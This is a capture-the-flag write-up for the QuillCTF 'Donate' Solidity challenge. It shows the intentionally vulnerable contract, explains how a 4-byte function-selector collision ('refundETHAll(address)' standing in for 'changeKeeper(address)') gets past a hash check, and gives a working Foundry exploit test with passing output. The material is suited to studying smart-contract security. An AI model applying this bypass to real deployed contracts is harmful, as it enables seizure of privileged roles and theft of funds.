 # QuillCTF : Donate

## Objective of CTF

Initially, you are a hacker. Not the owner or the keeper of Donate contract.
The purpose is to call keeperCheck() Function and get true;

### Contract code
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8;

contract Donate {
    event t1(bytes _sig);
    address payable public keeper;
    address public owner;
    event newDonate(address indexed, uint amount);

    modifier onlyOwner() {
        require(
            msg.sender == owner || msg.sender == address(this),
            "You are not Owner"
        );
        _;
    }

    constructor(address _keeper) {
        keeper = payable(_keeper);
        owner = msg.sender;
    }

    function pay() external payable {
        keeper.transfer(msg.value);
        emit newDonate(msg.sender, msg.value);
    }

    function changeKeeper(address _newKeeper) external onlyOwner {
        keeper = payable(_newKeeper);
    }

    function secretFunction(string memory f) external {
        require(
            keccak256(bytes(f)) !=
                0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428,
            "invalid"
        );
        (bool success, ) = address(this).call(
            abi.encodeWithSignature(f, msg.sender)
        );
        require(success, "call fail");
    }

    function keeperCheck() external view returns (bool) {
        return (msg.sender == keeper);
    }
}
```

### Foundry setup
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/donate.sol";

contract donateHack is Test {
    Donate donate;
    address keeper = makeAddr("keeper");
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() public {
        vm.prank(owner);
        donate = new Donate(keeper);
        console.log("keeper2 - ", donate.keeper());
    }

function testhack() public {
    vm.startPrank(hacker);
		// Hack Time


    }
}
```

Our goal is to call `keeperCheck()` as hacker return true, so we have to become the keeper

There's a `changeKeeper()` function which can change the keeper address, however it has the onlyOwner modifier, but the onlyOwner modifier not only allow the owner, but also allow the contract itself

There's a `secretFunction()` which allows us to call the contract on behalf of the contract itself, it takes a string argument `f` which will be the function selector and `msg.sender` as the argument

However there's a require statement to prevent us from calling `changeKeeper()` with it :
```solidity
        require(
            keccak256(bytes(f)) !=
                0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428,
            "invalid"
        );
```

That hash is the keccak256 hash of the function signature of `changeKeeper()` :
```
➜ keccak256(bytes("changeKeeper(address)"))
Type: bytes32
└ Data: 0x097798381ee91bee7e3420f37298fe723a9eedeade5440d4b2b5ca3192da2428
```

However a function selector only contains the first 4 bytes of that hash, so we can just find another string that has a function signature same as `changeKeeper()`

We can try to bruteforce, but that's gonna take some time, so I tried to search for the signature in Ethereum Signature Database :
https://www.4byte.directory/signatures/?bytes4_signature=0x09779838

It shows that `refundETHAll(address)` also has the function signature of `0x09779838`, same as `changeKeeper()`

So we can just pass `refundETHAll(address)` as the argument `f` and call `secretFunction()` which will call `changeKeeper()` and we will become the keeper

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/donate.sol";

contract donateHack is Test {
    Donate donate;
    address keeper = makeAddr("keeper");
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() public {
        vm.prank(owner);
        donate = new Donate(keeper);
        console.log("keeper2 - ", donate.keeper());
    }

function testhack() public {
    vm.startPrank(hacker);
    // Hack Time
    donate.secretFunction("refundETHAll(address)");
    
    assertTrue(donate.keeperCheck());
    }
}
```

### Foundry test output

```
# forge test --match-path test/Donate.t.sol -vv
[⠔] Compiling...
No files changed, compilation skipped

Running 1 test for test/Donate.t.sol:donateHack
[PASS] testhack() (gas: 20505)
Logs:
  keeper2 -  0xC3f2c61C4836Afeb9Ae601c91F6FE661df3D634E

Test result: ok. 1 passed; 0 failed; finished in 1.03ms
```